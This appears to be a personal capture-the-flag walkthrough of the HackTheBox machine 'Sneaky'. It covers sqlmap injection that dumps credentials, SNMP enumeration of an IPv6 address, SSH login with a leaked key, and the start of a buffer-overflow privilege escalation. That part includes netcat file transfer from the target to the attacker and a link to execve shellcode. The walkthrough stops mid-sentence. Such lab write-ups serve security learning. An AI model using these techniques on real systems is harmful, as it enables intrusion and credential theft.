

# Sneaky Walkthrough
Name: Sneaky
Date:  19/10/2022
Difficulty: Medium 
Goals: OSCP revision, BoF, learn about IPv6 with Ippsec - do the intended way.
Learnt: 
- IPv6
- Modern system dont like RSA
- Dont get carried away with gef... and better shell locating!
- More gdb revision 

 ## Resources:
[0xdf](https://0xdf.gitlab.io/2021/03/02/htb-sneaky.html)
[Ippsec](https://www.youtube.com/watch?v=1UGxjqTnuyo)

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.

	
## Exploit

The site is vulnerable to SQL injection a subject that I am familiar with, but I have not done I much as want to.




Ran sqlmap with:
```bash
sqlmap -r sqlmapwhileippsectalksipv6 -p pass --dbms mysql --level 4 --risk 3 --dump
```

While Ippsec talks IPv6 


`sup3rstr0ngp4ssf0r4d`

Check out IPv6 Defined in Archive!

Basically there is unintended way to do this machine using IPv6 using that id\_rsa with the external HackTheBox network of the machine.

...Intended way, do your UDP nmap scans!
While I waited for my UDP scans to run I tried some SNMP recon.
```bash
onesixtyone 10.129.1.179 public
Scanning 1 hosts, 1 communities
10.129.1.179 [public] Linux Sneaky 4.4.0-75-generic #96~14.04.1-Ubuntu SMP Thu Apr 20 11:06:56 UTC 2017 i686
```
You could also stalk the creator of the CTF who made a [IPv6 enumeration tool](https://github.com/trickster0/Enyx/blob/master/enyx.py) or you could just:
```bash
cat snmpwalk-output | grep iso.3.6.1.2.1.4.34.1.3.2.16|cut -d "." -f 13-28 | cut -d " " -f 1
# Output will be in the format by line 
# Loopback
# Link-Local
# Unique-Local
cat -n snmpbulkoutput | grep "inetCidrRouteIfIndex.ipv6"
```
dead:beef:0000:0000:0250:56ff:fe96:5f7a
Another alternative is to setup a VM or snapshot for python2, given the hell hole of being in 2022 and trying to convert is difficult, time consuming and sort of pointless. 


```bash
ssh -i id_rsa thrasivoulos@dead:beef:0000:0000:0250:56ff:fe96:14cc
```

RSA support for ssh is not supported anymore the fix **WHICH IS REALLY DANGEROUS REVERT ASAP REGARDLESS** is:
```bash
echo "    PubkeyAcceptedKeyTypes +ssh-rsa" | sudo tee -a /etc/ssh/ssh_config

```


## Foothold

The feeling..

## PrivEsc

For the buffer overflow hadnholding I have wanted for some time!
```
/usr/local/bin/chal
# Tranfer it to cheksec on it
# Attack
nc -lvnp 8080 > chal.b64
# Sneaky
base64 /usr/local/bin/chal | nc $ip 8080
# Attack
base64 -d chal.b64 > chal
```
   
   

Enumerate Offset 


`0x316d4130`

```bash
msf-pattern_offset -q $0xaddress
362
```

Also gef is great.
```bash
x/100x $esp
x/500x $esp # I found useful in finding a better shellcode location
```


For the shellcode:  https://packetstormsecurity.com/files/115010/Linux-x86-execve-bin-sh-Shellcode.html. After remembering the wonderous differences of 32 bit and 64 bit machines. Some gbd reacquaintance:

